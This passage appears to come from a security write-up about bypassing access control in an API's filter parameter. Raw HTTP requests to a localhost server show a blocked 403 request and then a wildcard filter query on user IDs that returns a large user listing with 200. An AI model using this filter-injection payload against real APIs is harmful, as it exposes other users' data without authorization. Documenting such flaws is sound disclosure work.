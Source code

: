 Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 403 
Date: Sat, 22 Mar 2025 14:40:07 GMT
Content-Length: 0
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
```
```
Again we make use of the filters and special operators that will allow us an alternative way to obtain the information of the users and evading the access control.
For example, filter by those *users* that contain the letter “*a*” in their user *ID*:
### Request
```
GET /api/users?filter[users]=id=in=(*a*) HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb.................
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 14:43:28 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 1434192
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
